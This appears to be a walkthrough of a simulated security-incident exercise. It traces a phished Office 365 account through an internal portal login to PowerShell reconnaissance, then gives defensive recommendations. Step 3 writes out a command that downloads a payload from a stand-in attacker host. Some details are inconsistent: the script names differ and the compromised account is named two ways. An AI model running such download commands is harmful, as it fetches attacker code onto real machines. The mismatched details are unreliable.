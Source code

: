 # 🧠 SOC Analyst Walkthrough — IR Sim 101

## 🗓️ Scenario Summary

The user `jacob.k@acmecorp.io` was tricked into submitting their Office 365 credentials via a phishing email. The attacker reused these valid credentials to log in to the corporate Office 365 environment and later used them again to access an internal portal (`intra.acmecorp.io`)—the link for which was found in old email threads. Through this access, they executed PowerShell commands to perform reconnaissance and potentially stage a payload delivery.

---

## 🔍 Step 1: Suspicious Office 365 Login

- Data Source: `o365_login_events.csv`
- A successful login was detected from **Singapore**, a geo-location never previously seen for this user.
- The login was from an unfamiliar browser and occurred at 2:19 AM IST.
- Historical data showed this user typically logs in from Mumbai, India.

✅ **Alert Triggered**: `O365_Suspicious_Login_GeoMismatch`

---

## 🛠️ Step 2: Internal Portal Access Using Same Credentials

- Data Source: `internal_portal_logs.csv`
- The attacker used the same harvested credentials to log in to the internal portal within an hour of the O365 login.
- This portal is not publicly indexed; the attacker likely found its link from old internal emails.
- Logs show the attacker downloading a script named `powerscan.ps1`.

✅ **Alert Triggered**: `Internal_Portal_Access_Anomaly`

---

## 💻 Step 3: PowerShell Reconnaissance Activity

- Data Source: `powershell_activity.csv`
- On the user’s endpoint, the following suspicious PowerShell commands were observed:
  - `Get-LocalUser`
  - `Invoke-WebRequest http://attacker.site/payload.exe`
- The script `winupdate.ps1` was likely disguised as a legitimate update utility.
- No prior history of PowerShell CLI use on Jacob’s device.

✅ **Alert Triggered**: `Suspicious PowerShell Execution`

---

## 🧩 Incident Flow Summary

Phishing ➝ Credential Theft ➝ O365 Login ➝ Internal Portal Access ➝ PowerShell Execution


This attack demonstrates the use of **valid credentials** across multiple systems to simulate lateral movement, internal access, and command execution—all without malware or exploits.

---

## 🔐 Analyst Recommendations

1. **Immediate Response:**
   - Invalidate all sessions and reset credentials for `j.doe@acme.com`
   - Investigate IP activity from Singapore across O365 and internal systems

2. **Security Control Gaps:**
   - Enforce Conditional Access Policies (location/device-based)
   - Enable MFA on both Office 365 and internal portals

3. **User Awareness:**
   - Educate user on phishing recognition
   - Test email filters and strengthen phishing detections

4. **Endpoint Hardening:**
   - Disable PowerShell where unnecessary
   - Monitor for script execution with non-standard names

---

## 📘 Summary

This simulation highlights how real-world adversaries can use harvested credentials to escalate access in low-friction environments. No exploits or advanced malware—just smart abuse of access and poor segmentation.

This was simulated with low-resource datasets to reflect realistic analyst workflows without needing high-end hardware or lab setups.
